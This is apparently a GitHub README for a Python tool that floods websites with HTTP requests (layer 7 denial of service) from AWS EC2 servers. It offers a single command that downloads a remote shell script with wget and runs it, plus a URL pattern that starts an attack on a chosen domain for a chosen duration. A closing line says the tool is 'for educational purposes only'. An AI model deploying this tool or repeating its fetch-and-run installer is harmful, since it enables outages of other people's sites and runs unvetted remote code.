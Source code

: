 # hypernovus-puppet-aws
Layer 7 Python Flooding script hypervisor for AWS EC2 Ubuntu 18.04 systems, packed with an autoinstaller script.

## Getting Started

soon

### Prerequisites

```sh
sudo su
apt update
apt install -y python2
```

The system requires basically nothing else but hardware. A linux server with 1GB/1Gb/1vCPU does the trick up to 1000 requests/second.



<!-- USAGE EXAMPLES -->

## Single-Command-Installation
   ```sh
   wget https://raw.githubusercontent.com/mehmetefeerkan/hypernovus-puppet/main/initl7.sh; chmod +x initl7.sh; ./initl7.sh
   ```
## Usage

  Let's say you want to attack your OWN website 'yourwebsite.com', and you've just set the system up to a server on IP 31.32.33.34; here's how you start an attack:
  ```
  http://31.32.33.34:3000/layer7/yourwebsite.com/10
  ```

## F O R _ E D U C A T I O N A L _ P U R P O S E S _ O N L Y 

